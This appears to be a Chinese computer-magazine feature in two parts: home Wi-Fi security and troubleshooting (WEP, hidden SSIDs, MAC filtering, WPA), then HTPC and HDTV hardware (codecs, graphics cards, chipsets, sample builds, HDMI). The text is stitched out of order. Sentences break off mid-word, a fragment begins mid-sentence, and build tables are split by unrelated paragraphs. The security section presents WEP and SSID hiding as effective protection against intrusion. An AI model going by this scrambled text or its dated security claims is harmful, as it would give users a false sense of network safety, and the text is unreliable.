WEP是Wired Equivalent Privacy的缩写，它会对无线传输中每个数据做加密，然后在另一端做解密的动作，WEP是802.11b无线网络最常用的加密手段。我们可以通过IE浏览器登录无线网络节点的管理界面，找到安全选项后，选择打开WEP加密功能，然后输入一段16进制的字符（0-9或a-f）作为加密字串，通常64位加密需要输入10位数的字串，而128位加密需要输入26位数的字串。保存设置后重新启动无线网络节点，加密就生效了，这样未经授权的无线网卡就无法与无线网络节点正常连接了。

在AP中设置WEP后，我们需要修改电脑上的“无线网络连接属性”才能正常连接到无线网络。进入“无线网络连接属性”页面，选择“无线网络配置”，在可用网络里找到自己的无线网络节点，接下来先点击“属性”，将“数据加密（WEP启用）”这一项激活，然后在下面的“网络密钥”和“确认网络密钥”两栏填入刚才设置的加密字串，点击“确定”完成，你的无线网卡就能够与无线网络节点正确连接了。

要注意WEP数据加密分64/128/256位等，位数越高安全度也越高，但由于加密/解密过程中要消耗一部分无线网络带宽，因此有效数据的传输速度会受到影响。

##### 4. 更改默认的SSID设置

SSID是Service Set Identifier的缩写，简单的说就是网卡与无线接入点之间沟通的密码，当两者都设定为相同的密码时，该网卡才能连上无线接入点。在安装好无线局域网后，你应该及时登录到无线网络节点的管理页面中，打开SSID设置选项，重新设置初始化字符串，同时最好取消SSID的网络广播（SSID broadcast）设置，这样能将非法入侵机会降到最低限度。

关闭AP的SSID无线标示，这样无线网络的SSID指示就不会出现在任何可用的网络连接中，用户只有输入了SSID后才能连接，而AP的SSID标示在管理AP时可以随意更改，因此该方法在不损失传输速度的同时也起到了“加密”的作用，有效地防止了未授权用户的入侵，是无线网络最简便的防范措施。

##### 5. 创建“MAC访问控制表”

在设定好WEP和SSID后，无线网络的安全性已经大大提高了。为了更好地保护无线网络的安全，你还可以进行一些其他有效的安全防范措施。比如要只让特定计算机接入无线网络，可以使用无线路由器的MAC地址过滤功能。我们知道，每个无线网卡都有一个身份标志，那就是MAC地址。一般情况下，任何两块无线网卡的MAC地址不会相同。因此，根据这个特性，我们可将允许接入无线网络的用户的网卡MAC地址输入无线路由器或AP的MAC地址允许列表中，并启用MAC地址过滤功能，那么不在列表中的无线网卡即使侵入我们的网络也无法使用网络服务。

在无线路由器的设置页面单击“安全设置→防火墙设置”，勾选“开启防火墙”复选框，然后便可以对MAC地址过滤进行设定了。勾选“开启MAC地址过滤”，将“过滤规则”设定为“仅允许已设MAC地址列表中已生效的MAC地址访问Internet”，然后单击“MAC地址过滤”，在该页面中对MAC地址列表进行编辑即可。

##### 6. 做好其他防范工作

AP放置位置也会影响到无线网络的通信安全，因此将无线网络节点摆放在一个合适的位置是非常有必要的，倘若你随便将无线网络节点放置在靠窗口的位置，就会使外人很轻易地搜索并连接到你的无线网络中。

安装合适的防火墙软件也能提高无线网络的安全性，像金山网镖V就是一款支持无线网络的个人网络防火墙。它提供了对无线网络的安全保护，当从有线网切换到无线网时，金山网镖V会自动给出提示，同时自动切换相应的安全规则，保证用户免遭侵入。

此外安装新版操作系统，并合理设置共享分区密码，加密重要数据等常规的网络安全设置在保障无线局域网安全方面也是同样适用的。

##### 7. 改进无线网安全协议

通过合理设置SSID、WEP等网络参数，可以确保无线网络对每个上网用户进行身份验证，但是这些无线网络的安全设置功能只对一般的入侵有防范作用，如果遇到攻击水平稍微高一些的用户，无线网络的安全设置功能就无能为力了。

为了提高无线局域网的安全级别，在新一代的802.11g无线产品中，普遍采用了WPA对连入网络的用户进行认证，并对无线传输的数据进行加密。由于WEP使用的是静态密钥，而且其初始向量只有24位，这使得密钥容易被破解。WPA中通过TKIP将密钥的初始向量增加到48位，而且可以使用动态产生的多组密钥，大大提高了系统安全性。

目前最好的认证方式是802.1x，它同时适用于有线与无线网络，且不易被破解，但它要用专用的服务器，通常只有企业用户才会架设，对于一般家庭使用者，则可等待802.11i，它将有更强的加密机制。

在无线网安全协议上，值得一提的是“WAPI和WPA协议之争”话题。目前IEEE准备开发一个新的WLAN标准802.11i来修复原来标准存在的安全漏洞，也许解决该争议最理想的方法就是将二者都融入到802.11i中。

#### 五、无线局域网常见故障维修

##### 1. 提高无线网络的可靠性和稳定性

在多数情况下，无线设备连接故障是由于使用不当引起的。通常表现有连接困难、通讯速度慢、掉线等故障。其故障原因一般有以下几方面：AP与网卡间的距离过长；AP与网卡间有障碍物影响，比如室内复杂环境，墙壁、家具影响工作在2.4GHz频段的其他微波设备干扰；网络线缆、天线线缆接触故障；定向天线特性等影响。其他还有设备过热、缓存过小等。

增强无线网络的稳定性应从下面几方面出发。首先是无线路由器的摆放位置。一般应尽量摆放在房间中点位置，并避免遮挡。第二是无线路由器自身的稳定性，通常将固件升级到最新版本对改善信号不稳定或无线网卡自动掉线的情况特别有效。三是无线网卡与无线路由器的匹配问题，比如无线路由器为54M，而无线网卡却只有11M，这时就可能出现因两者不断协商工作模式造成连接速度缓慢或者不稳定的情况，这时建议将路由器速度设定为较低的值，降低传输速度通常可以让无线网络更加稳定。四要注意无线网卡的驱动程序问题，尽量用随卡光盘上附带的驱动来安装无线网卡。最后还应注意对无线路由器进行合适的设置，比如关闭不必要的加密设定，设定自动频段，减少频段干扰，设定固定IP地址，拒绝DHCP数据包等，都有助于提高无线网络的稳定性。

如果上网一段时间后就掉线，关闭无线路由器后再开启又可以连通，可按以下方法分析解决：首先是软件上的问题，请查看所有连接的计算机是否有蠕虫病毒或者木马，请先使用杀毒工具和木马专杀工具扫描清除掉计算机内的病毒或者木马然后再接在网络上。若有电脑在进行BT下载，占用了全部带宽也可能导致，处理办法是更换AP或限制BT等下载软件的传输速率。其次是网络中过多DHCP服务器引起IP地址混乱，需将网络中所有DHCP服务器关闭，使用手动指定IP地址方式或仅保留一个DHCP服务器。某型号的无线路由器与ISP局端设备不兼容，也可能引起频繁掉线，这类问题只有换用其他型号的无线路由器，再观察问题是否解决。无线路由器或ADSL设备散热不良也是重要原因，如刚上网时正常，过一会儿网速下降，这时如果用手摸设备很烫，换一个设备速度就正常，说明散热环境不好。如果无线路由器不是太热的话，则可能是因为路由器缓存过小或带机过多引起。

也可能是因为你使用了Windows XP来配置无线网卡造成的，在有多个无线网络的情况下，Windows XP会优先选择负载相对比较小的网络，而一般信号比较好的网络用户比较多，所以就会跳跃到信号小的负载也小的网络上。建议你使用和网卡匹配的专业软件搜索信号最强的无线网络。无线网卡都带有专门的管理软件与之相匹配，利用它便可详细查询无线网络状态、设置各项功能参数等。而一些品牌计算机所配备的专用管理软件往往会更加强大，例如IBM ThinkPad笔记本电脑，其专用的IBM Access Connection软件与无线网卡搭配，无线信号强弱的检测值可精确到1%。

##### 2. 从指示灯来判断无线网络常见故障

首先检查无线网卡或无线路由器的状态指示灯是否闪烁，如果闪烁，说明有网络通信数据流量存在，一般可以证明本机与无线路由器的连接正常。否则应当检查信号的强度、无线路由器的电源是否打开等。

如果无线网卡灯不亮，可能是网卡没有正确安装，也可能是没有和网络连接设备正常连接。在“设备管理器”中检查是否有“网络适配器”选项，或者网络适配器下的设备是否带有“？”或者“！”黄色标记。如果是，表明设备安装不成功，先删除该设备，刷新并重新为其安装驱动程序。如果不是，则证明是网络设备没有问题，或者是无线信号或加密的问题。

无线路由器指示灯方面，“PWR或Power”灯为电源显示，正常应长亮，如供电正常还长灭则表明无线路由器或其AC电源变压器有故障，请送修；“SYSTEM”灯是系统初始化灯，正常应闪亮，如果是灭，则表明无线路由器未能正常初始化，可检查WAN线或重启电源或拔下电源插头再插上，直到正常闪亮。

“WLAN”灯，灯灭表示没有正常启用无线功能，可到无线路由器配置页面里去看WLAN功能是否被“开启”。“Link/Act”灯，LAN工作灯，灭则表明端口未连接有线网卡或HUB等设备，或连接的线缆及设备有问题，如果你是使用有线+无线混合上网，应对此做重点检查。

若指示灯正常，但连网仍有问题，可进入无线路由器的配置页面进行检查。检查宽带接入方式是否正常选择或被改动，例如要确定是采用FTTX+LAN宽带还是ADSL虚拟拨号，就需分别选择“动态IP”和“PPPoE”方式，进入无线路由器管理界面，选择菜单“网络参数”下的“WAN口设置”，在右边主窗口中，“WAN口连接类型”选择“PPPoE”，输入“上网账号”及“上网口令”，点击连接按钮即可。对于使用笔记本电脑内置无线网卡的用户，在使用时还需注意笔记本电脑上的WLAN开关是否被打开，确认无线电选项是否已被开启。而使用外置无线网卡的朋友，则应注意网卡安装是否正常。

### 毫发毕现并不难
——高清视频应用专题

◆文/方成亮

HTPC是Home Theater Personal Computer的缩写，中文通常直译为“家庭影院个人电脑”，顾名思义它就是PC和家电的结合体。在网络与数码娱乐方式爆发式增长的现在，PC与家电的融合似乎已经不可避免，而反映到硬件产品上的时候就产生了这种结合体。而为了满足消费者的需求，HTPC在满足传统PC机性能的同时也应该能够达到家电的标准。

#### 一、HTPC与HDTV：解析应用需求

##### 1. 高清视频标准：何谓HDTV

谈论HTPC自然不能脱离HDTV。HDTV是DTV标准中最高的一种，即High Definition TV，故而称为HDTV。事实上，我们没有必要过多拘泥于HDTV的技术定义，只要明白这是一种高分辨率的视频即可。HDTV甚至并非是一项技术标准，而只是高分辨率视频的“别名”。笼统来看，我们可以将主流HDTV分成720p、1080i以及1080p这三种标准，不过这从根本上说也只是继承模拟视频的算法，主要是为了与原有电视视频清晰度标准对应。对于真正的HDTV而言，决定清晰度的标准只有两个：分辨率与编码算法。
我们经常看到的HDTV分辨率是1280×720和1920×1080，这对于如今的显示器而言的确是不小的考验。如果分辨率进一步提高，那么将很难在现有的显示器上获得更加出色的画质，因为此时的瓶颈在于显示设备。另外也可以肯定的是，对于32英寸以下的屏幕而言，1920×1080分辨率基本已经达到人眼对动态视频清晰度的分辨极限，也就是说再高的分辨率也只有在大屏幕显示器上才能显现出优势。如图1，1080p标准的HDTV视频。


除了分辨率是HDTV的关键，编码算法也是不可忽视的环节。HDTV基本可以分为MPEG2-TS、WMV-HD、H.264和VC-1这四种算法，不同的编码技术自然在压缩比和画质方面有着不小的区别。相对而言，MPEG2-TS的“压缩比”较差，而WMV-HD、VC-1和H.264更加先进一些。而十分容易理解的是，“压缩比”较差的编码技术对于解码环境的要求也比较低，也就是说并不需要高性能的硬件设备。目前，我们在讨论HTPC配置时，其实主要是针对H.264与VC-1算法。由于这种算法的压缩比和编码速率都较高，因此解码时对硬件性能提出很高的要求。

##### 2. HTPC和普通PC的区别

HTPC和普通PC的区别在哪里，这是我们在选购配件之前必须明白的问题。首先，千万不要简单地认为HTPC就是纯粹追求高配置，这样会使你进入一个误区。其次，HTPC所关注的不仅仅是解码，包括显示器、音频系统、存储系统以及噪音控制都是不可忽视的环节。如果缺少任何一方面的细节考虑，那么整个HTPC将会不伦不类。

###### （1）走出高配置误区

很多用户都以为HTPC在播放高清视频时必须拥有足够强大的配置，但是这往往一知半解。我们可以做这样一个很简单的测试：在合理设置播放器、分离器和解码器的情况下，Athlon 64 3000+配合512MB内存以及GeForce 6600GT显卡就可以很流畅地解码10Mbps的H.264@1080p高清视频。要知道，这仅仅是一年前的主流配置，换成现在则绝对是低端配置。而如果是应对MPEG2-TS和WMV-HD解码，那么就更加游刃有余了。
但是，当我们换成平均25Mbps的H.264@1080p高清视频之后，这套配置明显变得吃力起来。其实，这个例子已经给了我们一个很好的答案。在应付90%以上的高清视频时，目前几乎任何一款主流CPU都足以胜任，因为真正高于10Mbps编码速率的H.264@1080p高清视频很少见，而且容量非常惊人，除非是一些发烧友才会下载。如果大家已经对高清视频“走火入魔”，那么在配置CPU时选择双核是必备的，并且购买Core 2 Duo或者高频Athlon 64 X2也并不会显得浪费，毕竟现在CPU依然是解码超高清HDTV的性能瓶颈之一。如图2，高性能的CPU只有在解码该编码速率的H.264@1080p才能发挥作用。



###### （2）原汁原味的HTPC

HTPC大致可以分为两种类型：一种是纯粹配合客厅里的大屏幕LCD电视机或是PDP等离子电视机，另一种是作为家用PC兼顾高清视频回放和常规应用。对于第一种HTPC，我们认为大家在选购配置时应该特别注意美学化和小型化，并且将稳定性放在第一位，而不用特别强调硬件性能；对于最常见的第二种HTPC，则必须综合考虑美观、散热、静音、性能等方面的表现。对于普通PC而言，我们一般使用全高ATX机箱，但是这对于HTPC而言实在不够好看。Micro-ATX架构的主板搭配迷你机箱是最常见的HTPC之选。此外，讲究稳定性的HTPC一般并不会选择超频，甚至搭配显卡时也更加倾向于低发热量的中低端产品，甚至可以考虑集成显卡。如图3，迷你机箱才是HTPC的绝配。



选购迷你机箱是组建HTPC中不可忽视的一个环节。现在很多廉价的低质量迷你机箱都采用颜色鲜艳的喷漆，以此来吸引消费者。但事实上，产品品质的低劣是无法用外观来掩饰的。对于用户而言，如果选择了这类迷你机箱，那么无疑会带来很多不必要的麻烦。当然，我们对个性化的迷你机箱并不反对，而是十分推荐。但是问题在于，外观必须建立在品质的基础上，不然是没有任何意义的！相对而言，主流一线品牌针对HTPC所推出的专用机箱是很不错的选择，甚至具备类似家电化的外观，而且可以平卧放置，更加适合客厅的整体空间布局。

#### 二、组建HTPC容易忽视的环节

##### 1. 忽视音频系统

HTPC给大家留下的第一印象便是高清视频回放，因此往往不少人将精力全部集中在视频系统，而对音频系统视而不见。其实在实际应用中，没有高性能音频系统的支持将会让高清视频变得索然无味。但是，重视音频系统并非是让大家一定要购买高档独立声卡以及多声道音箱，而是应当根据实际情况来进行合理搭配。HTPC的音频效果不仅依赖于声卡，音箱作为最终的回放设备也很重要，所以声卡和音箱应该做成一个方案。假如用户使用的是电视自带的音箱，那么在声卡的选择上就没必要再投资了，选择集成声卡的主板即可。而如果自己准备外接音响甚至AV功放，那么创新Audigy级别或是VIA Envy24以及Crystal CS4630主芯片的声卡都是比较理想的选择。此外，目前市场不少以HTPC为卖点的主板都集成HDMI接口，这样PC与液晶电视机的音频连接只需要一根接线即可。如图4，独立声卡更加适合追求全面表现的HTPC。



##### 2. 忽视静音表现

DIY兼容机噪音总是大于品牌机，这是很多DIY玩家的抱怨。由于过分追求超频或是性价比，我们往往忽视了噪音控制。如果说以往的普通家用电脑还能忍受噪音，那么对于HTPC而言，噪音实在是破坏心情，因此如何打造静音HTPC也是不容忽视的问题。首先，暴力风扇肯定不可取，尽管这有利于散热和稳定性，但是恼人的噪声实在大煞风景。其次，整机的散热通道必须合理，这能够降低对主动散热设备的性能需求，有利于减少噪音源。最后，我们在各个设备的选购方面，包括散热器、CPU、电源、显卡、硬盘等都必须加以注意，尽可能购买静音型产品，低噪音的热管散热器更是必不可少，同时机箱的钢板也是越厚越好，因为这可以屏蔽不少噪音。

##### 3. 忽视存储系统

在硬盘容量方面，当然是越大越好。即便是很多发烧友小巧的WMV HD格式，一般来说60秒的1080p质量的WMV HD格式文件是60MB左右，一部三小时的电影，就得占掉10GB的容量。因此，一个200GB以上的硬盘是绝对必不可少的。如果有条件，配备320GB的硬盘有着最好的容量价格比。如图5，大容量SATA硬盘最实惠。



很多HDTV发烧友总是非常强调硬盘的速度，但其实我们只要很简单地进行计算就可以发现，当前主流IDE硬盘的内部传输率绝对可以满足高编码速率的HDTV要求。因此，某些高手号称需要配备高转速SCSI硬盘纯粹是误导，大容量的高性价比SATA硬盘才是首选。

##### 4. 忽视操控性

HTPC毕竟不是传统意义上的PC，因此我们在操控方面必须格外注意，普通键盘鼠标的配置也许并不合适，加入更多的家电化元素才是理想的选择。一般来说，一款无线鼠标是最起码的要求，此时能够很好地坐在客厅沙发上远距离遥控操作。相对而言，无线键盘的意义并不是很大，这主要是因为其摆放不方便，而且通常HTPC也无需进行过多的键盘操作。当然，如果资金充裕的话，购买专用的无线遥控器是很不错的解决方案，目前在淘宝网或是京东网都有大量相关产品出售，这类设备可以类似电视机遥控器那样操控HTPC，甚至与Windows MCE结合使用。

#### 三、关注视频系统：显卡选择是关键

对于HTPC而言，由显卡和显示器组成的视频系统的确是重中之重，因此我们将对这两大配件的选择进行着重分析。其实，视频系统的组建应该追求实惠，避重就轻是最基本的原则，而不用过分拘泥于高端产品。

##### 1. 应用好显卡的高清功能

如果是RMVB或是普通MPEG4视频，那么我们在选择显卡时实在没有什么好犹豫的，因为任何具备64MB显存的显卡都足够应付。但是，一旦涉及到HDTV高清视频解码，就不全然如此了。对于高清视频解码而言，仅仅依靠CPU肯定不是理想的选择，此时不仅容易在高编码速率下显得不流畅，而且在播放视频时根本无法同时运行其他程序。

###### （1）nVIDIA PureVideo HD技术

曾几何时，解码MPEG2并不是一件容易的事情，因为CPU频率并不高，仅仅依靠DVD播放软件十分吃力，造成画面严重不流畅。在随后出现的各种显卡中，硬件解码补偿几乎成为一种标准配置。然而这回nVIDIA PureVideo HD给我们带来的不仅仅是解码补偿，而是纯硬件解码支持。与解码补偿不同的是，纯硬件解码基本不需要CPU参与，因此可以节省大量的硬件资源，而且能够配合其独立的色彩与画面优化技术，这是以往解码补偿技术所无法实现的。如图6，PureVideo HD称为GeForce 7和8系列的视频优化绝技。



NVIDIA的PureVideo HD技术的主要作用分为两部分，其一是硬件辅助解码加速作用，其二是视频内容编辑部分。PureVideo HD技术可以针对目前主流的H.264和WMV HD格式文件进行解码支持。在这之中H.264格式因为有了优秀的编码算法，在较低的数据流下可以提供更好的画质，因此被视为未来最重要的视频编码标准之一。也许有的读者会对WMV HD硬件解码不以为然，因为普通2GHz主频的CPU配合GeForce4 MX即可轻松胜任。但是请大家不要忘记，应用WMV HD的不仅是现有的部分视频文件。同样是WMV HD编码，如果分辨率大幅度提升，那么对于解码环境的要求也相应提升。更为重要的是，当3D游戏运用WMV HD编码视频的时候，这种硬件解码技术有助于通过减小CPU占用率而带来更好的性能，同时也非常适合那些需要多头显示并且一边看HDTV一边上网或是工作的用户。

###### （2）ATi AVIVO技术



ATi显卡在视频优化方面的底蕴可谓比nVIDIA更为深厚，几乎是nVIDIA发布PureVideo技术的同时，AVIVO技术也同步出现。AVIVO是一个结合了视频采集、硬件压缩/编码/解码、影像后期处理、最终显示于一身的全面硬件解决方案。它形成了一个完整的视频流水线，也就是ATI所称的“Video Pipeline”。通过ATI使用弹性极佳的GPU架构，可以针对不同codec编码的解码方式进行最佳化，也因此能提供平顺的影像播放效果，并且耗用极低的CPU使用率。目前AVIVO技术可以支持H.264、MPEG-2、MPEG-4、VC-1和WMV9等影像压缩格式的辅助解压，这些功能将内建在驱动程序中，不需要透过第三方软件或是另外加购的解码模块才能达成。透过GPU协助解码，可以将原本耗用CPU使用率将近90%的情况降到20%左右，留给系统更大的处理能力。如图8，AVIVO展现出不俗的视频优化能力。

以ATi的X1000系列为例，无论是X1300还是X1600或是X1800/1900系列，都支持AVIVO技术，此时不同的显卡是不是解码效果不同？其实这个问题应该比较客观地看待，因为即便是该系列中，最低端的X1300在配合高性能CPU时也能比较流畅地解码H.264。而如果是CPU和内存配置相对较弱，那么就需要档次更高的显卡。ATi X1300系列只能对480p的H.264进行硬件加速，而X1600系列则可以对720p的H.264进行硬件加速，只有X1800/1900系列才可以对1080p的H.264进行硬件加速。更加重要的是，新一代Radeon HD 2000系列支持高清硬解码加速引擎UVD，此时针对HDTV高清视频所实现的是全解码支持，不需要CPU的参与，达到更加理想的效果。



##### 2. 整合主板是否适合HTPC？

整合主板的性价比一直饱受争议，那么在组建HTPC时，整合主板到底是否合适呢？其实，回答这一问题的根据还是集成显卡是否支持HDTV解码补偿，而目前不同集成显卡的功能相差不少，这就需要我们理智地区别看待，而不是一棍子打死整合主板。

| 北桥 | 集成显卡 | 内存标准 | 核心频率 | 视频优化 | H.264硬件解码补偿 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| i945G | GMA950 | 双通道DDR2 | 400MHz | 无 | 不支持 |
| i946GZ | GMA3000 | 双通道DDR2 | 400MHz | Clear Video | 不支持 |
| G965 | GMA X3000 | 双通道DDR2 | 450MHz | Clear Video | 附加卡支持 |
| SiS 662 | Mirage1 | DDR2 667 | 300MHz | 无 | 不支持 |
| SiS 761GX | Mirage1 | CPU控制 | 300MHz | 无 | 不支持 |
| SiS 771 | Mirage3 | CPU控制 | 325MHz | Static/Slow Motion | 不支持 |
| ATI Xpress 200G | X300 | CPU控制 | 300MHz | 无 | 不支持 |
| AMD 690G | X1250 | 双通道DDR2 | 350MHz | AVIVO | 支持 |
| AMD 790G | R6XX | 双通道DDR2 | 450MHz | UVD/AVIVO | 支持 |
| VIA K4M890 | UniChrome 9 | CPU控制 | 250MHz | 无 | 不支持 |
| nVIDIA C51 | GeForce 6100/6150 | CPU控制 | 425MHz | Pure Video | 支持 |
| nVIDIA C61 | GeForce 6100/6150 | CPU控制 | 425MHz | Pure Video | 支持 |
| nVIDIA C68 | GeForce 7025/7050 | CPU控制 | 475MHz | PureVideo HD | 支持 |

#### 四、视频画质质量：关注色彩表现的奥秘

对于显卡技术而言，3D速度已经不是唯一的发展目标，带来出色的2D画质与视频功能同样十分重要。如果说2D画质基本取决于显卡做工与低通滤波电路，那么视频功能则还是需要依靠强大的GPU来实现。如今nVIDIA、ATI和VIA S3都在其最新产品线中融入了视频优化引擎，Intel也有相应的动作，这将直接给用户的各种视频应用带来好处，更让我们体验到显卡技术的另一面。

##### 1. 为什么不同显卡的色彩表现会有差异

理论上说，在纯2D应用中，不同显卡不会存在任何色彩表现的差异，唯一的不同便是Gamma值的调整。但是在视频应用中，不同显卡的表现就不尽相同了。随着HDTV以及在线视频VOD点播的普及化应用，视频回放能力越来越受用户重视，显示芯片厂商对于视频能力的宣传也不遗余力。视频文件的分辨率不可能正好等于显示器的分辨率，因此存在一个缩放的过程。然而视频缩放的时候容易出现马赛克。举一个最简单的例子：打开一张图片后用ACDsee放大了看，倍数越高则马赛克越明显。在视频编码里的去马赛克是针对编码中的损失的修正，不是缩放的修正；在缩放的时候就得靠软件或者硬件来对马赛克进行插值补偿了，方法有不少，一般是用类似模糊、柔化的方法。

达到10级，并且亮度、Gamma以及色彩饱和度的调节都十分细致，只是因为整体色彩偏冷色调而让国内用户感觉有些不爽，再加上以往nVIDIA的确在这方面存在“不良历史”，所以出现如今的局面也就不令人感到奇怪了。

##### 2. Overlay和VMR

提到插值就不能忽视Overlay和Video Mixing Renderer（VMR）了。前者被称为“视频覆盖”或者重叠，是通过相关硬件进行视频缩放，色域转换（RGB和YUV的互相转换）、亮度、Gamma、色彩饱和度的调节等等，老显卡的视频都是通过Overlay处理后再“显示”出来的。Overlay对于视频放大所产生的马赛克通过过滤器进行插值补偿，达到消除马赛克的效果。过滤器通常有水平5级和垂直3级之类的规格，比较出色的显卡会有10级过滤。由于Overlay是硬件播放和缩放，对于配置比较低的机器而言，用Overlay Mixer是首选。

VMR（Video Mixing Renderer）则是Windows中默认的播放选择，直接支持DirectX视频加速，兼容性比较好，但是对显示芯片有特殊要求。此后，VMR技术发展到VMR9，对应DirectX 9.0，目前所有主流显卡都支持这项技术。但是需要注意的是，VMR并不意味着视频显示完全依赖于GPU芯片的计算，它也需要进行色域转换和过滤器的马赛克消除步骤。因此不同显卡的VMR效果并不相同，只是差距不像Overlay方式下那样明显。如图10，在影音风暴软件中可以设定不同的视频渲染方式。



不要简单地认为VMR一定比Overlay先进，因为在实际使用中，Overlay画面更加柔和和自然，很适合看一些动画片或是生活片。相对而言，ATI显卡的色域转换和Gamma调节更加迎合东方人的习惯，因此一直被认为是很适合看电影的显卡。而nVIDIA似乎是背上了不应该有的骂名，因为其Overlay部分的过滤器也

#### 五、HTPC配置推荐

很多准备好好享受HDTV的用户都有组建一台HTPC的计划。但是，HTPC配置的经验不能完全照搬普通PC，我们更加看重的是高清解码、静音表现、操控性能以及整体外观。因此，我们推荐以下几款典型的配置，以供大家参考。

##### 1. 整合主板配置

| 配件 | 具体型号 | 价格 |
| :--- | :--- | :--- |
| CPU | AMD Athlon 64 3000+ AM2 | 300 |
| 主板 | 昂达N68H | 499 |
| 显卡 | 主板集成 | 0 |
| 声卡 | 主板集成 | 0 |
| 内存 | 金邦512MB×2 DDR2 667千禧条 | 220 |
| 硬盘 | 西数160GB 8M SATA | 450 |
| 光驱 | 三星 金将军16XDVD | 160 |
| 机箱电源 | 酷冷至尊影音先锋260+长城300W静音版 | 1100 |
| 键盘鼠标 | 明基神雕侠侣套装Ⅱ代 | 100 |
| 总计 | | 2829 |

昂达N68H主板采用nVIDIA MCP68芯片组，它整合了高性能的GeForce 7050图形显示核心，除了拥有不错的3D加速能力外，配合PureVideo HD技术，具备了非常不错的高清视频解码能力，而且支持H.264解码补偿。此外，该集成显卡提供了常规的D-SUB、DVI以及HDMI接口，非常适合用来组建家庭HTPC平台。在CPU和内存配置方面，也完全能够满足高清回放的需求。考虑到应用场合以及兼顾静音，我们选择了发热量较低的单核心Athlon 64 3000+，配合主板的智能风扇转速控制以及静音版电源，整机噪音可以得到很好的控制。在这款配置中，酷冷至尊影音先锋260机箱很值得一提，此时不仅散热非常有保障，而且所提供的遥控器在Windows MCE中能够应用得活灵活现，WinDVR等播放软件也均可支持。此外，影音先锋260 HTPC机箱的美观性也有口皆碑，再加上兼容ATX架构的主板以及普通电源，留给用户的配件选择余地非常宽广。

##### 2. 均衡性配置

| 配件 | 具体型号 | 价格 |
| :--- | :--- | :--- |
| CPU | Celeron 420 | 240 |
| 主板 | 梅捷SY-I5GZ2-L | 400 |
| 显卡 | 七彩虹1300GT HDMI | 899 |
| 声卡 | 主板集成 | 0 |

通过对比可以发现，nVIDIA集成显卡在解码HDTV高清视频时有着一定的优势，而传统强势厂商AMD-ATI因为其AMD 690G集成上一代显卡而无法支持H.264，这不能不说是一种遗憾。相对而言，Intel、VIA以及SiS的集成显卡并非是HTPC的理想之选，偏低的性能以及较弱的视频回放功能使之显得索然无味。作为明智的消费者，我们认为近期C68主板是最最值得关注的HTPC整合之选，而即将发布的AMD 790G也是很值得期待的。如图9，支持H.264解码的nVIDIA MCP68集成显卡。

| 内存       | 威刚DDR2 667 512MB×2 | 230 |
| 硬盘       | 西数Caviar SE JS 250GB | 520 |
| 光驱       | 先锋DRV-111XL        | 270 |
| 机箱电源   | TT 莫扎特+先马静音版 | 2750 |
| 键盘鼠标   | 罗技套装              | 120 |
| 总计       |                       | 5429 |

#### 六、高清世界的宠儿：HDMI接口

微软XBOX360以及索尼PS3相继支持HDMI令其赚足了人气。在PC应用领域，支持HDMI的显卡也相继出炉，部分大尺寸宽屏LCD也具备了HDMI接口。可惜，HDMI接口现在俨然是一副“贵族”姿态，不仅成本较高，而且真正具备HDMI接口的设备还不够普及。

##### 1. HDMI接口的优势

高清多媒体接口HDMI先前也叫DVI-CE（Digital Visual Interface-Consumer Electronics），在2002年岁末，由这7家公司共同推出的高清晰数字多媒体接口HDMI 1.0标准颁布，现在已经发展到最成熟的1.3版本。HDMI 最高支持10Gbps的传输带宽，而高清HDTV仅需要2.2Gbps，所以还有很大的传输余量来满足日后更高标准的视频数字信号。由于HDMI传输带宽非常“富裕”，因此它支持HDTV信号的无压缩传输和八声道96kHz数字音频传送，只用一根HDMI连接线就可完成高清晰度图像和数字伴音的传播，根本不用任何音频连接线，而且连接线20多米也不会影响画质。所以说，HDMI最适合应用于各种设备回放高清视频的选择。

### 3. 巧妙的HTPC配置

这套配置显得比较特别，最大的特点是直接使用AMD的炫龙移动CPU，然后配合Socket 754的整合主板。由于炫龙ML30的功耗非常低而且性能不俗，因此很适合用来组建HTPC。虽说目前购买Socket 754主板以及DDR400内存略微有落伍之嫌，但是性价比还是很值得肯定的。此外，这里并没有采用HTPC专用机箱，主要是考虑到节约成本，而且联志CPRO A5迷你机箱放在客厅或是数字卧室也绝对不难看。而通过罗技无线鼠标和微软MCE2005无线键盘的控制，在Windows MCE下将会体验到完美的HTPC操控乐趣。最后要提醒大家的是，使用移动CPU打造HTPC固然是很不错的想法，但是目前迅驰平台的复杂度还是太高，必须使用专用的主板或是转接卡，而AMD的双核炫龙也无法兼容台式机平台，所以Socket 754炫龙几乎是不二的选择。

| CPU        | AMD炫龙ML30           | 220 |
| 主板       | 映泰TF6100（S754）    | 330 |
| 显卡       | 内置                   | 0   |
| 声卡       | 创新Audigy 2 Value    | 360 |
| 内存       | Kingston DDR400 512MB | 220 |
| 硬盘       | 希捷7200.10 200GB SATA | 500 |
| 光驱       | 网络共享               | 0   |
| 机箱电源   | 联志CPRO A5（含电源） | 290 |
| 键盘鼠标   | 罗技V320无线鼠标+微软 MCE2005无线键盘 | 700 |
| 总计       |                       | 2620 |

> “xvYCC”色彩范围是经国际电工委员会认可，并作为一种国际色彩范围标准于2006年1月发布的，当时主要针对平板液晶电视等某些新型的电视机。这种技术标准的动态影像色彩再现能力远远超越了传统“sRGB”标准色彩范围内容。符合“xvYCC”标准产品，其画面能够包容比传统“sRGB”标准产品更广的色域，其色彩表现范围大约是符合传统“sRGB”标准产品的两倍。尤其是传统“sRGB”标准所不能表现的高纯度鲜艳色彩，“xvYCC”标准都能准确显示，几乎含盖所有肉眼能见的颜色。

此外，HDMI在进入1.3版本之后，其色域更宽，支持下一代“xvYCC”色彩空间标准，可以精确、逼真地重现自然界中的所有色彩。在音频方面，HDMI新增了对Dolby TrueHD和DTS-HD Master音频格式的支持，无损格式带来如同原声剧场电影般的数码环绕立体声体验。更让人满意的还有自动唇型同步适时补偿技术，能够自动校准最常见的音视频同步问题。对比DVI或是色差输入，HDMI的优势毋庸置疑，是高清时代的绝对首选。如图11，部分显卡开始支持HDMI接口。

### 2. 没有HDMI的产品适合高清时代吗

HDMI在数据传输方面有着出色的抗衰减能力，这使得它在长距离传输上比DVI等方式更具优势。而且，HDMI抗衰减能力的出色之处还表现在它对线材的不挑剔，普通HDMI线与高价HDMI线的性能表现类似，这一特性使得消费者能够节省不少在线材方面的花费。HDMI的卓越特性使得它在极限电缆长度的情况下都表现优异的性能，HDMI没有指定线缆的距离限制，这也是很多网上都说HDMI没有长度限制的原因。如图12，不讲究长度与屏蔽效果的HDMI线缆还能节省发烧友的银子。





